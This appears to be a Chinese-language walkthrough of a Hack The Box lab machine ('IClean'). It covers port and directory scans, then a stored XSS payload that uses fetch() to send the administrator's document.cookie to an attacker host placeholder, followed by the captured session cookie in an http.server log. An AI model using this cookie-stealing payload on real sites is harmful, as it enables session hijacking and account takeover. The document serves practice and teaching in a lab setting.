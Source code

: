 # \[level:Medium] IClean

## 一 、信息收集

| 靶机信息 |                       |
| ---- | --------------------- |
| IP   | 10.129.99.246         |
| 域名   | http://capiclean.htb/ |

### 1.1 nmap扫描结果

```
┌──(a1ertx5s㉿kali)-[~]
└─$ nmap -Pn 10.129.99.246
Starting Nmap 7.94 ( https://nmap.org ) at 2024-04-10 22:50 CST
Nmap scan report for capiclean.htb (10.129.99.246)
Host is up (0.34s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 122.72 seconds
```

### 1.2 url目录扫描结果

```
┌──(a1ertx5s㉿kali)-[~]
└─$ dirsearch -u http://capiclean.htb/

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/a1ertx5s/reports/http_capiclean.htb/__24-04-10_23-08-03.txt

Target: http://capiclean.htb/

[23:08:03] Starting: 
[23:09:40] 200 -    5KB - /about
[23:12:01] 302 -  189B  - /dashboard  ->  /
[23:13:22] 200 -    2KB - /login
[23:13:25] 302 -  189B  - /logout  ->  /
[23:14:45] 403 -  278B  - /server-status
[23:14:46] 403 -  278B  - /server-status/
[23:14:46] 200 -    8KB - /services

Task Completed
```

扫描结果没啥用, 就一个dashboard值得关注.

### 二、渗透过程

### 2.1 XSS获取管理员cookie

随便逛逛可以发现有一个quote页面,页面可以给管理员留言,尝试是否存在xss,能否利用xss获取管理员cookie.

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p>burp suite 抓包</p></figcaption></figure>

其中exp是url encode过的.

```html
<img src=x onerror=fetch("http://hackIP:Port/?cookie="+document.cookie);>
```

可以使用python3的http server进行cookie的捕获,结果如下

```
┌──(a1ertx5s㉿kali)-[~]
└─$ python3 -m http.server 959
Serving HTTP on 0.0.0.0 port 959 (http://0.0.0.0:959/) ...
10.129.99.246 - - [10/Apr/2024 23:21:57] "GET /?cookie=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhaHiw.vNyGcFEurcPrFcHAjqEJsNVRkFo HTTP/1.1" 200 -
```

成功获取cookie, 将cookie加入到header中,再去访问dashboard.

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

成功进入到dashboard页面.

